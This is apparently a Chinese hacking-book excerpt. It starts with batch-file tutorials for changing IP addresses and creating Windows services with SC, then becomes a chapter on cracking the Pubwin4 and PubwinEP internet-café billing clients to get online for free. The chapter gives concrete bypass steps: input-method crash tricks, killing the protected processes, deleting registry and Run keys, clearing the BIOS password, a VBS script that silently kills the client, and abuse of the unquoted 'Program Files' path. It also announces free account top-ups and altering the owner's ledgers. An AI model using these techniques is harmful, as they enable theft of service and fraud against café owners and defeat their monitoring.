在命令行的网络应用中我们学习了如何修改 IP，是不是每次输入那么多命令很麻烦呢？并且在网吧中操作尤其不爽。发明批处理的一大目的就是简化复杂的操作，我们可以编写一个批处理，参数只要修改后的 IP 就可以了，其它都交给批处理去自动搞定咯！好主意，那让我们赶快开工！

首先让我们获得修改 IP 的命令 Netsh 的相关用法，查看前面的内容可知其命令格式为：

```bat
netsh interface ip set address "接口名称" IP类型 IP地址 子网掩码 网关IP GatewayMetric
```

我们一般只需要修改 IP 地址，其它的均保持默认就可以了。要想不手工输入其它内容，我们就得用批处理自动写入这些参数到 Netsh 命令中，所以我们首先要获得这些参数。思路就是这样了，下面是我的代码：

```bat
@echo off
setlocal
Rem 这个批处理用来修改IP地址
:: 下面这句用来取得IP类型并写入文件ip.txt
netsh interface ip show address | find "DHCP" > ip.txt
for /f "tokens=3 delims= " %%i in (ip.txt) do (
  if "%%i"=="否" (set iptype=static) else (set iptype=dhcp)
)
:: 下面这些语句意思同上
netsh interface ip show address | find "IP" > ip.txt
for /f "tokens=3 delims= " %%i in (ip.txt) do set ip=%%i
netsh interface ip show address | find "子网掩码" > ip.txt
for /f "tokens=2 delims= " %%i in (ip.txt) do set mask=%%i
netsh interface ip show address | find "默认网关" > ip.txt
for /f "tokens=2 delims= " %%i in (ip.txt) do set gateway=%%i
netsh interface ip show address | find "GatewayMetric" > ip.txt
for /f "tokens=2 delims= " %%i in (ip.txt) do set metric=%%i
netsh interface ip show address | find "接口" > ip.txt
for /f "tokens=2 delims= " %%i in (ip.txt) do set interface=%%i
:: 下面修改IP
netsh interface ip set address %interface% %iptype% %1 %mask% %gateway% %metric%
echo.
echo 修改前 IP 为：%ip%
echo.
echo 修改后 IP 为：%1
del /f /q ip.txt
endlocal
```


将代码保存为 CIP.bat，在命令行下使用方法为 `cip.bat 你要修改的IP`，执行后如图 4-5-1。

执行起来速度还是很慢的，因为我们用到了 7 个 Netsh 命令，这个命令的执行是比较慢的。这个版本算是最简陋、执行效率最低的版本了，但也是最好理解的。这里有很多地方可以精简，最需要精简的就是中间获得当前 IP 配置的地方了，用一个 Netsh 命令就可以做到了，然后把 For 命令做相应的修改就可以达到同样的目的了。修改后中间部分的代码如下：

```bat
netsh interface ip show address > ip.txt
for /f "tokens=2 delims= " %%i in ('find "接口" ^< ip.txt') do set interface=%%i
for /f "tokens=3 delims= " %%i in ('find "IP" ^< ip.txt') do set ip=%%i
for /f "tokens=2 delims= " %%i in ('find "子网掩码" ^< ip.txt') do set mask=%%i
for /f "tokens=2 delims= " %%i in ('find "默认网关" ^< ip.txt') do set gateway=%%i
for /f "tokens=2 delims= " %%i in ('find "GatewayMetric" ^< ip.txt') do set metric=%%i
for /f "tokens=3 delims= " %%i in ('find "DHCP" ^< ip.txt') do (if "%%i"=="否" (set iptype=static) else set iptype=dhcp)
```

代码中有很多类似 `find "接口" ^< ip.txt`，为什么要加那个脱字符呢，不是要重定向符号定向到 find 命令吗？是的，重定向符号还是要生效的，但是你要知道这个命令是 For 的一个子命令，在执行 For 命令的时候 CMD 会将它的所有内容先载入做预处理，这时候“<”不是一个普通符号，所以载入的时候就会出错。而在预处理后 CMD 已经将脱字符处理了，到执行这条 find 命令的时候就又变成“<”了。

虽然执行效率提高了，但是它没有任何提示信息和错误检查，在下面的例子中我们将加入这些内容，写一个完整的批处理。

### 4.5.2 创建服务的批处理程序

上次我们用一个图形界面工具 DIY 了一个系统服务，但一般情况下对远程主机操作（尤其是对内网）在图形界面下操作是不可能的，不过只要有个 CMDSHELL 就足够了，我们可以在命令行下造一个服务。这里利用的是 WinXP 中的一个命令 SC，它是一个命令行下操作服务的强大命令，我们可以用它新建、开启、关闭、查看、删除一个服务，还可以配置服务的所有参数，而这些都是在命令行下完成的！这里我们只了解它的创建服务的用法，其它用法留给大家自己去探索。

Sc 命令创建一个服务的用法格式为：`sc create [service name] [binPath= ] <option1> <option2>`，其中 Option 比较重要的有：

- 服务类型：`type= <own|share|interact|kernel|filesys|rec>`（default=own）
- 启动类型：`start= <boot|system|auto|demand|disabled>`（default=demand）
- 错误处理：`error= <normal|severe|critical|ignore>`（default=normal）
- 二进制文件路径：`binPath= <BinaryPathName>`
- 显示名称：`DisplayName= <display name>`

其它选项保持默认即可，根据前面学习的知识，我们知道为一个一般程序建立服务都需要用 srvany.exe 作为二进制文件，所以这里的服务的可执行程序的路径就是 srvany.exe 的全路径了。这么说有点死板啊貌似，我给个例子吧，如下：

```bat
sc create fsrv binpath= c:\srvany.exe start= auto displayname= "Fornever's Service"
```

这句命令的意思是建立一个名称为“fsrv”，启动类型为自动，可执行文件路径为“c:\srvany.exe”，显示名称为“Fornever's Service”的服务，其它没有指定的服务参数均保持默认。下面我将完成这个创建服务的批处理，其中我会加入友好的提示信息以及错误处理，并将其个性化，尽量使其看起来更像一个应用程序。当你希望自己的批处理被别人使用的时候，最好这样。

```bat
@echo off
title AddService.bat by Fornever
color 0f
if "%1"=={} goto usage
if "%1"=={/?} goto usage
if "%1"=={/h} goto usage
if "%1"=={create} goto create
goto error

:usage
cls
echo AddService.bat by Fornever @ www.nohack.cn
echo Written by Fornever 2007/3/21
...
echo [描述]
echo AS（AddService）是一个创建服务的批处理程序，用户只需简单地输入几个服务必要的参数即可为应用程序创建一个服务。
echo AS 适用于 Windows 2000/XP/2003，Windows NT 未测试。
...
echo [用法]
echo %0 create 服务名称 程序路径 启动类型 显示名称 描述
...
echo [参数说明]
echo 服务名称：名称中不能包含空格和任意符号。
echo 程序路径：你要做成服务的程序的全路径，可以给程序加入参数。
echo 启动类型：可选有 boot/system/auto/demand/disabled。
echo 显示名称：服务的显示名称，需要用双引号引住。
echo 描述：服务的描述信息，需要用双引号引住。
...
echo [应用例子]
echo %0 create fsrv "c:\windows\system32\updata.exe" auto "Fornever's Service" "这个服务是Fornever建的"
...
echo [注释]
echo srvany.exe 必须与本批处理在同一目录下
echo 对于 Windows 2000 来说 sc.exe 和 reg.exe 是必不可少的
goto :eof
```

## 批处理命令行下的精彩

```bat
:: 使用SC新建一个服务
:create
if not exist srvany.exe goto filenotfind
sc create %2 binpath= "%cd%\srvany.exe" start= %4 DisplayName= %5
if errorlevel 1 goto failed
:: 将服务描述写入服务
sc description %2 %6
:: 将可执行程序的路径写入注册表
reg add HKLM\SYSTEM\CurrentControlSet\Services\%2\Parameters /v application /t reg_sz /d %3

echo.
echo 服务创建成功!
echo.
set /p startsrv=是否现在启动服务[Y 或 N]:
if "%startsrv%"=="y" sc start %2
goto :eof

:filenotfind
echo 没有发现 srvany.exe，请确认 srvany.exe 是否与本批处理处在同一目录下
goto :eof
```


图 4-5-3 批处理程序启动后的显示效果

图 4-5-2 批处理程序初始状态显示效果

```bat
:failed
echo 创建服务失败! 很可能你没有执行权限。
goto :eof

:error
echo 参数错误!
Rem END
```

批处理的用法信息显示效果如图 4-5-2，使用后如图 4-5-3。文中涉及到的所有批处理代码已经收录入光盘，大家如果对命令行以及批处理有什么想法或者疑问，可以到 www.nohack.cn/bbs 来找我，我们精彩的命令行之旅就到这里了！

### 第四章 Pubwin 安全日志

## Intro

本章目标你可以学到

- 1. 了解 Pubwin4 和 PubwinEP 的组成结构
- 2. 了解 PubwinEP 的限制和自我保护功能
- 3. 登陆前破解 Pubwin4 客户端的方法
- 4. 登陆后破解 Pubwin4 客户端的方法
- 5. 登陆前突破 PubwinEP 客户端的方法
- 6. 登陆后退出 PubwinEP 客户端的方法
- 7. 利用注销使 PubwinEP 客户端不加载的方法
- 8. 利用断开网络连接破解 Pubwin 的方法
- 9. 修改 Pubwin4 客户端程序绕过管理员密码验证的方法
- 10. 软件爆破的基本方法
- 11. 了解 Pubwin4 详尽的数据库结构
- 12. 了解 Pubwin4 服务端的功能
- 13. 为普通用户免费充值的方法
- 14. 为会员免费充值的方法
- 15. 修改会员事件记录的方法
- 16. 修改总账的方法


Pubwin 作为一款优秀的网吧管理软件，在国内的网吧市场中拥有相当大的占有率，而也正是因为这个原因，关于 Pubwin 的破解讨论得也最多。笔者也算是“看着 Pubwin 长大”的网吧人了，从最初不成熟的产品 Pubwin3 到漏洞百出的 Pubwin4 再到更换了全新内核的新一代网管软件 PubwinEP，也许由于我所在的城镇都安装的是 Pubwin 的原因，几乎所有 Hintsoft 的网吧管理产品我都接触过，最常碰到的就是 Pubwin4 了。而始料未及的是，前段时间官方又推出了一款 Pubwin2007，它是在对原 Pubwin EP 产品做了全面的更新优化和调整而衍生出来的网吧计费软件。

从笔者自身感觉来讲，这款软件是在 Pubwin4 盛行的时候被广大网吧业主认可的。它虽然有很多漏洞，但其比较全面的限制、强大和操作简单的管理功能以及非常灵活的计费都是业主和管理员们选择它的原因。后来安全问题日益严重，Pubwin4 也跟着升级到 4.3 等版本，增强功能和优化的同时弥补了从前的安全漏洞。按理说这下应该相安无事了，可 Pubwin4 仍旧被屡屡攻破，到底是什么原因呢？究其原因，不得不说 Pubwin4 的整体设计就存在安全问题，它采用了通常的网吧管理软件的设计思路，因此再怎么修补漏洞都无济于事，其本身就是不安全的。也正是因为这个原因，Hintsoft 推出了全新内核的 Pubwin EP，它重写了核心代码，并从布局结构上做了彻底的改变，这些改变使 Pubwin EP 的网吧管理系统的安全性能得到了大幅度的提高。不仅如此，EP 在客户端方面下的功夫也很大，就自我保护方面 EP 相对于 Pubwin4 来说有了质的飞跃，这给破解者带来了新的难题。虽然经常看到 Pubwin EP 出现各种各样的问题，说明它还是一款日趋完善的产品，但它不论在技术上还是市场上必将取代 Pubwin4，成为新一代网吧管理的霸主。

以上这些纯属个人见解，虽然 EP 的确很强，但现在仍有很多网吧使用的是 Pubwin4，笔者相对熟悉的也就是它了。究其原因笔者认为有两点：一是网吧业主对安全的重视力度仍然不够，这经常出现在一些规模较小、欠发达的小城镇中的网吧；二是由于破解版的原因，很多网吧用的 Pubwin4 是从网上下载的破解版本，使用起来和正版无异。而据我所知 Pubwin EP 至今还没有破解版出现。要知道一套 EP 网吧管理软件的价格不菲啊！有免费的用干嘛要浪费那么多白花花的银子呢？这是很多网吧业主的想法，而这也是安全意识淡薄的表现。

一般使用 Pubwin EP 的网吧相对来说还是比较专业的，规模一般为中上，有很多是连锁店。现在貌似都是公安部门强制要求安装网吧管理软件，我见过和听过很多地区都是这样的，不知道这是不是全国统一的，笔者这里确实如此。而安装的网管软件几乎都是 Pubwin4，见过万象但没有见过 Pubwin EP，这又可以解释为地方对安全的重视力度不够，或者说是不肯出财力维护安全。Pubwin EP 直到到北京后才第一次亲密接触，在几次的交手后对它也有了一定的了解并有了一些心得。

本章就将围绕 Pubwin4 和 PubwinEP 的 HACKING 展开讲解，剖析从客户端到服务端存在的安全问题、破解以及利用。这是一次对 Pubwin4 的总结，对 PubwinEP 的初探，希望能够起到抛砖引玉的作用，让读者在学习到破解方法的同时有自己的思考，再加以实践，也许新的漏洞就这样被找到了。在本章的开头部分笔者将简要介绍 Pubwin 的这两个产品，然后从客户端的破解开始，最后上升到服务端的给自己账户免费充值与 Hacking。希望读者能在这整个过程中掌握网吧管理软件以及同类产品的一般破解方法，而不仅仅为破解本身而喜悦。

## 测试环境 Windows XP Professional SP2

## 1、Pubwin 系列产品简介

这部分的编排是为了让大家搞清 Pubwin4 及 PubwinEP 的组成和一些特性，在了解这些的基础上我们开始破解之旅，这样可以少走很多弯路，并且有利于“因地制宜”。虽然有点俗了，不过确实是“知己知彼，百战不殆”吧！接下来将要讲到的这些内容均来自 Pubwin4 及 PubwinEP 的官方帮助文件，我只挑了我认为比较重要的几点简要地介绍下，大家也可以自己去认真研究，光盘中已经收录了 Pubwin2007 的官方帮助文档供大家参考。

### 1.1、Pubwin 网吧管理软件的组成

### 1.1.1、Pubwin4 的组成

Pubwin4 大体来说分为服务版和客户版两部分，前者即 Pubwin 的服务端，它安装在网吧的一台服务器上，这台服务器的性能比一般客户机要强。服务端上有网吧的客户端管理程序，Pubwin4 的管理程序和收费程序是在一起的，因此保存账目的增减以及历史记录等信息的数据库也在服务端上，并且 Pubwin4 的数据库使用的是 Microsoft ACCESS。客户端安装在网吧的每一台客户机上，它们受服务端的支配，管理员可以通过服务端远程设置客户端的限制、可以远程关机等，这时候服务端就像一个简单的远程控制软件的客户端。除了服务端和客户端外，网吧还可能为了连接公共文化接口而安装一些类似任子行、过滤王之类的软件，这些软件的作用是连接当地的监管部门（比如公安局）对网吧监督。Pubwin4 的系统组成如图 1-1-1。


### 1.1.2、Pubwin EP 的组成

Pubwin EP 是在脱离了 Pubwin4 的基础上诞生的新一代网吧管理软件，貌似重写了核心代码，在一些功能和限制等方面都采用了新的方法，破解起来较 Pubwin4 要困难许多。首先从整体构架上它和 Pubwin4 就是有很大区别的，让我们来看看 Pubwin EP 都由哪些部分组成，以下这些信息是笔者根据 Pubwin EP 的官方帮助文档总结的。

- **a、服务器（PubwinServer）**：负责后台业务逻辑处理，有支持 Windows 和 Linux 的两种版本。Pubwin EP 放弃了 ACCESS 数据库，采用相对安全和高效的 MySQL。
- **b、控制台（PubwinConsole）**：用于管理员日常营业操作。可独立安装，也可与服务器同机安装；支持控制台和计费服务器分离部署。
- **c、客户机（PubwinClient）**：主要用于控制顾客的使用权限，并辅助完成收费管理功能。
- **d、接口代理（SyncAgent）**：通过接口代理实现与公安、文化监控软件的协作，即公共文化接口程序。
- **e、Web 管理**：控制台的另一种实现方式，允许管理员通过浏览器进行 Web 界面操作，并支持通过互联网远程访问。
- **f、备份服务器**：用于实时异机数据备份。


Pubwin EP 的系统组成如图 1-1-2 所示。首先 Pubwin EP 尽可能地将各组成部分分离，保证了在一台服务器上不会因为一个组成部分的漏洞对其它部分产生影响；其次 EP 在对客户端的程序设计上也使用了新的技术，官方描述为 Genfs 技术，从操作系统核心入手，从根本上解决网吧破解的问题。另外 Pubwin EP 还内嵌杀毒引擎等，并通过自动更新非法程序库，有效防止各种木马以及黑客程序，可以说 EP 想得已经比较全面了。

### 1.2、Pubwin 的保护与限制

### 1.2.1、Pubwin EP 的保护与限制

关于 Pubwin4 的限制在第一章的时候我们已经列出来了，这里给出 Pubwin EP 的一些限制和保护措施，资料来自官方帮助文档，如图 1-2-1。

从图中我们可以看出，一般的网吧限制基本还是没有改变，EP 的重要作用是自我保护功能。经过笔者试验，Pubwin EP 客户端的安装目录（`C:\Program Files\hintsoft\PubwinClient`）不允许用户进行任何写操作，比如新建、复制、删除。EP 添加的注册表项也有保护功能，一些黑客程序执行后不是“拒绝访问”就是无响应。客户端在一般用户下不能被卸载，而如果强行结束 `PubwinClient.exe`，机器可能在短时间内重启甚至蓝屏。只要 EP 服务端启动，这些保护措施就会生效。


### 1.2.2、Pubwin4 的保护措施

Pubwin4 的客户端可谓真正的“裸奔”，几乎没有自我保护措施，自身安全更多依赖还原系统保护，因此破解相对简单。部分较高版本加入了服务端监视客户端功能，例如客户端有管理员登录时服务端会显示提示，但该功能并非所有版本都具备。

而 Pubwin EP 在这方面更完善：除监视管理员登录外，还可监控客户端是否存在“非法操作”（如结束 `PubwinClient.exe` 进程），并在控制端报警。图 1-2-2 给出了一些事件及其说明列表。


## 2、Pubwin 客户端破解

说起破解网吧管理软件的客户端，通常是最先接触到的部分，因此相关研究也最多。所谓破解主要是让客户端程序退出以摆脱服务端控制，或修改客户端设置达到去限制等目的，也可尝试以更高权限登录管理软件，从而获得更多操作自由。

本节以 Pubwin 客户端破解为核心，分为 Pubwin4 和 Pubwin EP 两部分，方法因环境不同未必通用。需要注意的是，破解客户端程序存在风险，实际操作时应尽量低调并留意管理员动态。


### 2.1、Pubwin4 的客户端破解

### 2.1.1、登录前的破解

没有登录客户端时，Pubwin4 通常会出现登录框（如图 2-1-1）。这时背景可能是蓝色或桌面，常规情况下无法点击其中内容。可利用登录框相关输入法漏洞进行处理：切换到“智能 ABC”，在“卡号”处输入特定按键序列（如“v + Delete + 回车”），触发 `Pubwin.exe` 出错提示后确认，登录框可能消失。

很多朋友都知道了，智能 ABC 输入法的这个漏洞在很多地方都有应用，在网吧中最常用的除了破解网吧管理软件以外，我们还可以用这种方法结束桌面进程，因为很多时候破解了网吧管理软件后桌面是不可用的，这时候只要重新启动桌面进程就可以了，它的进程名为 **Explorer.exe**。首先我们结束桌面进程，点击一下桌面，然后再次利用智能 ABC 的输入法漏洞，是不是出现了 Explorer.exe 的错误提示呢，如图 2-1-2。


然后过一小会系统就会自动重新加载桌面，这时候桌面就可以点击了！但是利用 ABC 的输入法漏洞结束了 Pubwin.exe 的执行后它会自动重新执行（不过有的版本不会），这是因为 Pubwin 使用了多进程保护技术。关于多进程保护，后面会讲到，这里继续我们的登录前的破解。

除了智能 ABC 外，网吧还可能安装其它输入法，比如默认情况下是安装微软的全拼输入法的，这个也可以被我们利用哦！同样激活“卡号”文本框并转换到全拼输入法，然后在输入法条上点击右键，会出现“帮助”菜单，如图 2-1-3。


点击其中的“操作指南”我们就获得了一个 CHM 帮助文件，呵呵，想到什么了？跳至 URL！点击“输入法操作指南”左上角的控制按钮，选择其中的“跳至 URL”，如图 2-1-4。接着在“跳转至该 URL”中输入 `c:\`，然后“确定”。在右面的窗口中是不是出现了 C 盘的内容呢？当然我们也可以从这个帮助文件中进入“Internet 选项”，然后在“常规”选项卡中进入，在“Internet 临时文件夹”的设置区域就可以进入 Internet 临时文件夹了，剩下的步骤前面都已经讲过了，这里就不再赘述。


需要注意的是，有时候有的 CHM 文件是没有“跳转 URL”的功能的，比如我的 WinXP HOME 中的 CHM 文件就没有这个功能，Home 版本确实去掉了不少实用的功能。除了使用登录框破解外，我们还可以使用热键，在没有登录以前 Pubwin 是没有屏蔽系统热键的。在第二章中我已经将大部分热键都列出来了，这其中最有用的就要数 Win 键了，我们顺便再复习下：**Win** 弹出“开始”菜单，**Win+R** 运行，**Win+D** 显示桌面，**Win+E** 运行资源管理器，**Win+F** 搜索。用它们我们就可以破解掉这个讨厌的红框框。

### 2.1.2、Pubwin4 的多进程与破解

Pubwin4 刚出来的时候就宣扬它的多进程保护技术可以防止进程被用户结束，而所谓的多进程就是 **Pubwin.exe、Reclock.exe 和 RunDll.exe** 了。后两个进程有什么其它功能暂时不得而知（貌似是没有的），它们两个可以保护进程 Pubwin.exe，当它们检测到进程中没有 Pubwin.exe 的时候，可以在短时间内（不同版本恢复时间不同）重新执行 Pubwin.exe。

因此最简单的一种破解方法就出来了，依次结束以下进程：RunDll.exe、Reclock.exe 和 Pubwin.exe，Pubwin 就一去不复返，但这也仅限一些较低版本的 Pubwin4，有些版本的这种方法是不行的，貌似 Pubwin 又加入了新的检测方式。Pubwin 客户端在安装时，在注册表的这个位置添加了注册表项 **HKEY_LOCAL_MACHINE\SOFTWARE\Hintsoft**，其中保存了 Pubwin 客户端的安装路径和主程序的文件路径，如图 2-1-5。


我们删除 Hintsoft 这个注册表项，然后依次结束上面提到的进程，是不是 Pubwin 的客户端退出了并不再回来了？而很多时候在删除注册表项后只要结束 Pubwin.exe 就可以破解成功了，那两个进程不用管它。这种方法在去过的网吧竟然通杀，算比较高效和彻底了。另外在把 Pubwin4 的客户端退出后很有可能没有桌面或者桌面不可用，并且它设置的限制都还在，这时候只要重新执行 Explorer.exe，桌面就可以回来了，限制可以手工搞定或者利用工具。

### 2.1.3、无法访问外网的解决方案

上面的这种破解方法不仅适用于没有登录以前，在正常上机登录以后这样破解了，在你的时间到了后服务端也是无法干掉你的。至此我们已经将 Pubwin4 的客户端破解了，一直到你玩得尽兴了或者被管理员发现（后面这个可不爽了哦！）都是免费的，但是也许你会郁闷：无法上网，也就是无法连接外网，QQ 不能上，网页也无法浏览。其实这是服务端的限制，Pubwin4 的服务端在客户端注销后会阻止客户端访问外网。当然这仅限于 Pubwin4 服务端处在客户端与外网中间，否则无法实现这样的功能。而这也仅仅限于处于锁定状态的客户机，对于没有开启电源的客户机服务端忽略了检查，这就给了我们可乘之机，因此我们只要修改 IP 就可以了，就这么简单！利用图形界面下“网络连接”的属性或者从命令行修改，也可用我编写的那个修改 IP 的批处理程序（知道当初为什么要讲如何修改 IP 了吧！）都可以，当出现 IP 冲突的提示时是不可用的，一般情况下改个比较大的值，一定要小于 254，然后尝试登录一个网站，成功就可以咯！不行就再试，多试几次肯定行了。

### 2.2、Pubwin EP 的客户端破解

由于 Pubwin EP 相当 BT 的自我保护措施，使得一些想当然的破解方法失效。结束 `PubwinClient.exe` 后系统会重启或异常。作者在安装 EP 客户端过程中发现多个以当前登录用户身份执行的进程（如 `rundll32.exe`），并推测其与 `Reclock.exe`、`RunDll.exe` 的协同作用有关。继续结束相关进程后系统出现蓝屏，说明 EP 防护并不容易直接绕过。


Pubwin EP 功能强但客户端限制和保护也较强，同时存在稳定性与漏洞并存的问题。不同版本需要不同破解思路，旧方法对新版常失效。文中测试版本为 **5.0.000.000.001.0605301256**，可在 EP 客户端托盘图标“关于系统”中查看（如图 2-2-1）。

### 2.2.1、未登录前的破解

与 Pubwin4 不同，EP 临时上机卡密码由上机用户自行设定，并非仅存数据库。EP 登录界面几乎占满屏幕，桌面项目不可点击。启动时会先运行安装目录下的 `ClientStarter.exe`（键盘与鼠标动作控制程序），并弹出提示框。


该提示出现后鼠标被限制、系统快捷键多数被屏蔽。若要操作需在 EP 客户端完全启动前完成。系统刚启动阶段仍可用 `Win+L`、`Ctrl+Alt+Del` 等，但时间窗口极短；EP 加载后窗口程序会被快速关闭，给破解带来较大难度。

- **a、修改系统时间突破 EP**

将系统时间调到未来（如 2050 年后）可导致 EP 客户端加载失败：`ClientStarter.exe` 仍启动，但 `PubwinClient.exe` 不加载，前者短时间后会退出，从而获得可操作窗口。该方法受还原卡/还原软件影响，Windows 内改时可能被重启还原，因此可考虑在 BIOS 中修改时间。


文中进一步说明：可在开机时按 `DEL` 进入 BIOS；若 BIOS 设有密码，可用小工具清除后再操作。作者示例系统为 WinXP，输入命令后出现“Bios Password Cleaned Succeed!”提示即表示清除成功，再重启进行后续操作。

```bash
Flashbios XP
```

下面按“DEL”键（以免错过），然后就会无密码验证进入 BIOS 设置了，如图 2-2-4。

我这里是 PhoenixBIOS，不同的主板 BIOS 是不同的，但是一般修改系统时间的设置都会出现在首页中。根据 BIOS 里面的操作提示转换选项，这里我已经将系统时间修改为 2050 年，然后根据提示按 F10 退出，最后提示你是否保存修改，选择 Yes，如图 2-2-5。

在修改 BIOS 设置的时候要小心，其它的设置最好不要修改，否则很可能造成系统问题。保存退出后系统重新启动，等 Windows 启动后仍然会看到那个锁鼠标键盘的小框框，它不过只是小角色，让它先得意一会，N 分钟后它就不在了，玩吧！


- **b、TAB 键的简单破解**

很多人没有想到这个 TAB 键竟然有这么大的威力。在 Pubwin EP 的版本号为 5.0.000.000.001.0508071400 的客户端启动后（也就是你看到 EP 的那个好看的云朵飘的 FLASH 的时候），按下 TAB 键就可以直接进入系统。这时候你的登录是匿名，因为这时候你的使用状态既不是用卡登录的用户，也不是管理员，这个漏洞可不小，利用起来又简单又不容易被发现。这个漏洞理论上在被发现版本前面的版本中都是存在的，具体没有测试。

上述的 Pubwin EP 客户端的这两个漏洞在我这里是没有通过的，我的测试版本号已经告诉你了。

- **c、“万能”的输入法“漏洞”**

由于智能 ABC 的输入法漏洞是可以造成其它程序的执行出错，所以要从第三方软件的角度修补这个漏洞是比较困难的，除非你所在的网吧将 ABC 的漏洞补上了。这里我们仍然可以使用智能 ABC 的输入法漏洞进入系统，但是不要忘记在三分钟后系统会蓝屏或重启（不同系统表现不同），不过只要过去后有所“作为”你就可以无障碍免费上网了，至于如何作为，后面会有详细讲解。

之所以在标题的“漏洞”上加了双引号，是因为我们可以利用一些不算漏洞的“漏洞”绕过 EP 做一些事情。其实还是和破解 Pubwin4 客户端登录前一样，利用其它输入法的帮助文件进入系统。但 EP 和 Pubwin4 不同的是，它会很机敏地关闭所有窗口，不过经过测试双拼等微软开发的输入法的帮助文件，它是不会关的，如图 2-2-6，微软真是太有才了！


这张图片绝对不是 PS 的哦！从图中大家看到我已经用“跳至 URL”转到了系统目录下，可以在这个 CHM 文件中浏览任何没有限制的驱动器和应用程序，但是窗口程序的话 EP 还是会马上关闭的，你甚至连程序的窗体都看不到。至于 EP 为什么不会关闭输入法的这个窗口，我也不很清楚，应该是和输入法有关的吧！除了这个窗口关闭不了外，大部分的对话框和选项卡 EP 都是不会关闭的。

这里最关键的不是利用那个帮助文件，而是如何调出输入法。默认情况下输入法是英文输入，不要忘了在 Pubwin EP 完全启动后是无法使用一些键的，尤其是像 Ctrl 这样拥有很多组合的键，不过 Shift 还是可以用的。这就要求我们在 EP 完全启动前转换输入法，这是完全可以做到的！仍然是在 Windows 刚启动起来的时候，用 Ctrl+Shift 转换输入法到微软全拼或者微软五笔输入法，如果你抓不好时机的话只能狂按输入法碰运气了。转到微软的输入法后就可以像破解 Pubwin4 那样打开帮助文件了。

也许有的朋友要问了：就算访问了它的硬盘又怎么样呢？大部分程序都不能执行，的确这样，但这仅限于系统程序，我们完全可以写一个杀 PubwinClient.exe 的批处理放到某个可以访问的盘里呀！不过考虑到窗口程序不能执行，于是我用一个 VBS 文件以安静模式结束 EP 客户端的进程，脚本代码如下：

```vb
On Error Resume Next
set wshshell=createobject("wscript.shell")
a=wshshell.run("cmd.exe /k taskkill /f /im pubwinclient.exe",0)
```

把这个脚本保存在可以访问的目录，然后去结账。回来 EP 已经注销了，用刚才的方法访问保存 VBS 脚本的目录并执行 VBS 脚本，是不是看到了想念的桌面啊！输入法结合脚本结束 Pubwin EP 进程的破解方法在我这里测试成功！

### 2.2.2、登录以后的破解

登录以后破解做什么都方便了很多，但是任务却很艰巨：用什么方法能让系统不重启或者蓝屏，而且我们能顺利把 EP 的客户端破解掉呢？当然服务端同时不要发现就最好了。这里的一些破解仍然利用的是系统的一些功能，我先简单说说网上的一些方法吧！

- **a、一些方法**
- 使用休眠键和唤醒键：上机后按下休眠键（Sleep），然后去结账。回来后唤醒计算机（Wake Up）发现并没有被注销。
- 替换客户端文件：先准备好 PubwinEP 的客户端文件（这从网吧很容易获得），放到邮箱或 U 盘里。登录系统后首先断开网络……连接（禁用网络连接），然后结束进程 PubwinClient.exe，最后执行事先准备好的那个客户端程序，系统就被注销了。这时候就可以去结账了，回来后登录的用户名写 admin，密码为空直接登录，这时候 EP 的配置可是安装时的默认配置哦，你的当前登录身份为管理员！别犹豫了，点击右下角 EP 的图标勇敢地退出吧！密码仍然为空。


关于第一种方法不再多说什么了，休眠键和唤醒键可以破解很多网吧管理软件。第二种方法虽然你取得了管理员权限，但是你用管理员退出客户端的警告也已经赫然出现在了控制端程序上！

## b、利用注销破解

说到比较完美的退出 Pubwin EP 的方法，还得说利用注销了。这里并不是正面破解，而是不让 EP 的客户端加载，因此它和服务端也就无法通信了，服务端也就无法监视这台客户机了。结合前面讲过的登录前的破解方法和注销，就可以真正地不花一分钱免费上网了。系统中的很多地方都可以注销，从前面的文章中你可以获得不同的注销方法，不过这之前先让我们来看看应该干些什么。

笔者在尝试破解 EP 的时候，想到新建一个系统用户，并用这个用户身份登录系统，是否客户端就不会加载了呢？结果是失败，更失败的是，试验之前我竟然没有了解 PubwinClient.exe 的自启动项。它是在注册表的这个 Run 键下实现自动加载的：**HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run**，如图 2-2-7。

是在 HKLM 下的 Run 添加的启动项，也就是说任何用户登录这里的自动项都会被加载。那直接删除 EP 的启动项呢？开始我根本没有抱什么希望，因为它添加的另一个注册表键 HKEY_LOCAL_MACHINE\SOFTWARE\Hintsoft\PubwinClient 被拒绝访问，同样也不是权限问题。而我顺利地删除了 PubwinClient 的启动项的确很让人意外。然后顺理成章地我注销系统——登录系统，终于更让人没有想到的事情发生了：Pubwin EP 的客户端程序没有加载！我的版本测试是通过的，但是如果是重启系统的话，它的启动项就又会被添加了。

这样我们已经可以较完美地破解 Pubwin EP 了，不过不晓得其它版本直接删除启动项的方法是否能通过。笔者在尝试破解 EP 客户端的时候，无意间发现了一个漏洞，概率很小但是造成的伤害却是致命的。这个方法至今我还没有在哪里见过描述以及应用，但是可以达到破解 Pubwin EP 的目的。

我们仔细观察 Pubwin EP 的那个启动项，字符串值名为 PubwinClient，值为 E:\Program Files\Hintsoft\PubwinClient\PubwinClient.exe。这个是 EP 客户端的默认安装路径，路径中的“Program Files”是一个名称中有空格的目录，但是系统仍然可以在不使用双引号的情况下辨别 Program Files 是一个目录而不是 Program。这其实不是系统有多智能，而是 Windows 只是在查找完“Program”目录后才查找“Program Files”的，也就是说如果存在“Program”目录的话，系统则会认为要操作的目录就是它，而不是“Program Files”了。

利用这个原理，我们在 Pubwin EP 所在驱动器的根目录下新建一个名称为“Program”的文件夹（大小写无所谓），然后注销系统重新登录。这次讨厌的 EP 界面没有出现，取而代之的是 Program 目录和一个提示，如图 2-2-8。

Program 文件夹的自动项正是并非 PubwinClient 的自动项所赐，那个“文件名警告”提示用户这个文件夹可能造成一些错误，而这些错误是我们人为造成的啊，哈哈！所以毫不犹豫点击“忽略”，EP 就彻底 Say Goodbye 了！如果点击了“重命名”自动项还是会加载的，别犯低级错误啊！

这的确是我无意发现的，在成功后我才搞清楚原理，希望大家也理解了。你也可以新建一个无后缀的文件 program，这样也可以达到同样的目的。并且这种方法在系统重新启动后同样是成功的，当然前提是没有还原系统了。当系统重新启动且 Pubwin EP 不加载的时候，它的安装目录就是可写的了，注销是不可以的，大家可以进去随便玩啦！


## 2.3、断开网络连接的破解

通过断开网络连接破解网吧管理软件的方法最近很盛行，实现原理也很简单。服务端与客户端的连接断开了，于是服务端无法发送指令给客户端（比如告诉客户端你该注销了），客户端就摆脱了服务端的控制而独立了。于是有的朋友免费上网心切，干脆直接将网线拔下……呵呵，真够强的了，不过这样做的确可以免费。接下来我将把一些常用的断开与服务端连接的方法列出来，当然这些方法都是“软”方法了，拔网线，呵呵……

